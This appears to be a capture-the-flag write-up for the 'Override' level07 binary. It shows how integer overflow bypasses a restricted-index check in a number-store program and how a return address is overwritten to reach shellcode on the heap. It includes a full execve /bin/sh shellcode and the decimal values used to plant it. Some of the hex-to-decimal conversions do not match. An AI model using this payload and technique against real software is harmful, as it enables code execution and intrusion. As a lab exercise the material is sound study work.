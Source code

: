 # Override- Level07

This is one is the trickest.
We use as always dogbolt.

We have only a prompt to store numbers but we can't store numbers in the index % 3. (This are reserved to Will).

![Légende](img1.png)

So two questions:
1) The logic way is to put a shellcode in the store data but how to do it if there are provibided index?
2) How can we do a segfault to do the shellcode ?

## Bypass the prohibited index

We can see the return of get_unum it s a int so if we put a number larger then 2147483647 it will be reset to index 0.

![Légende](img2.png)

## How to segfault ?

We can see a address 0x080488ef in the heap.

![Légende](img3.png)

That s corresponding to the main function.

![Légende](img4.png)

So if we overwrite over this function we can have a segfault.

![Légende](img5.png)

That's working

## Final exploit
We will put his shellcode : \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

index 0 (2147483647) : 31909090 => 831557776
index 1 (2147483648): 2f6850c0 => 795365568
index 2 (1): 6868732f  => 1751675695
index 3 (2): 6e69622f  => 1852400175
index 4 (2147483651): 8950e389 => 2303779721
index 5 (4): e18953e2 => 3783873506
index 6 (5): 80cd0bb0  => 2160921520

![Légende](img6.png)

The shellcode is in the heap on the memory FFFFD520. So the final index is :
Index -2147483658: FFFFD520 => 4294956352

![Légende](img7.png)

That's working!

For the terminal only difference the address of the shellcode with 0x20 to add:

Last index -2147483658: FFFFD540 => 4294956352

